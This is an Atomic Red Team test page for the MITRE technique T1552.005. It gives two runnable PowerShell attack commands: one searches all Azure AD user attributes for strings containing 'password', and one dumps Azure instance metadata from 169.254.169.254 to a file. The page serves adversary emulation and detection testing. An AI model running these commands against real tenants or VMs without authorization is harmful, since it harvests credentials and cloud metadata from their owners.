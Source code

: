 ```yaml
---
tags: [T1552_005, atomic_test]
filename: "[[T1552.005|T1552.005 - Unsecured Credentials: Cloud Instance Metadata API]]"
---
```

# T1552.005 - Unsecured Credentials: Cloud Instance Metadata API

## Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords
This test uses the MSOnline Powershell module to retrieve all user attributes for a specified account, which can sometimes contain unsecured credentials. 
Upon successful execution, this test will scan all user attributes for any strings containing "password".
Those unsecured credentials will be output to a text file, as well as the account that they are associated with and the user attribute in which they were found. 
See: https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/Azure.md

**Supported Platforms:** Azure-ad


**auto_generated_guid:** ae9b2e3e-efa1-4483-86e2-fae529ab9fb6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module msonline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
$users = Get-MsolUser -All;
foreach($user in $users)
{$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; 
foreach($prop in $props)
{if($user.$prop -like "*password*")
{("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop) | out-file -filepath $env:temp\T1552.005Test1.txt -append -force}}}
get-content -path $env:temp\T1552.005Test1.txt -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
remove-item $env:temp\T1552.005Test1.txt -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
if (get-command Get-MsolUser -erroraction silentlycontinue){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
install-module MSOnline
```




<br/>
<br/>

## Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines
This test invokes a web request to the default Instance Metadata API of 169.254.169.254 in order to dump the data contained within it to a file. 
See: https://www.sans.org/blog/cloud-instance-metadata-services-imds-/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** cc99e772-4e18-4f1f-b422-c5cdd1bfd7b7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | File to output metadata to | string | $env:temp&#92;T1552.005Test2.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | ConvertTo-Json -Depth 64 > #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```





<br/>
